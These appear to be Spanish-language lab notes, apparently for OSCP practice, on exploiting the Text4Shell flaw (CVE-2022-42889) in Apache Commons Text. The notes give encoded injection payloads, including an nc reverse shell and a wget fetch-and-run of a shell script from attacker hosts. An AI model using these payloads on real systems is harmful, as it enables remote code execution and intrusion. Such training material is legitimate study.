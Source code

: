 
## DESCRIPTION

![[Pasted image 20230606212934.png]]

#### Mas información
* https://bell-sw.com/blog/cve-2022-42889-a-critical-vulnerability-in-apache-commons-text-library/
* https://nvd.nist.gov/vuln/detail/CVE-2022-42889


## EXPLOITATION

### OPTION 1: EJEMPLO

Necesitamos encontrar un campo donde podamos añadir texto


![[Pasted image 20230606212952.png]]
![[Pasted image 20230606212956.png]]
1º Prueba utliziar: ${url:UTF-8:http://192.168.45.212/test.php}

Comprobamos que nos llegan los paquetes

![[Pasted image 20230606213014.png]]

2º prueba ver si podemos ejecutar comandos (como ping o wget)

![[Pasted image 20230606213019.png]]

![[Pasted image 20230606213023.png]]


3º Pasa crear una reverse shell: hemos probado con varias pero nos daban problemas, como estas

http://192.168.62.174/text4shell/attack?search=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%27nc%20192.168.62.161%20443%20-e%20%2Fbin%2Fbash%27%29%7D


![[Pasted image 20230606213031.png]]


Vamos a crear una shell .sh la subimos y la ejecutamos:



txt4shell

%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%22%77%67%65%74%20%31%39%32%2e%31%36%38%2e%34%35%2e%32%32%38%2f%73%68%65%6c%6c%2e%73%68%20%2d%4f%20%2f%74%6d%70%2f%73%68%65%6c%6c%32%2e%73%68%22%29%7D 

![[Pasted image 20230606213037.png]]


![[Pasted image 20230606213043.png]]

%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%22%62%61%73%68%20%2f%74%6d%70%2f%73%68%65%6c%6c%32%2e%73%68%22%29%7D


![[Pasted image 20230606213050.png]]



## MACHINES

* Hack The Box: 
* OSCP: OSCPB BERLIN

**!!NOTA IMPORTANTE!!** 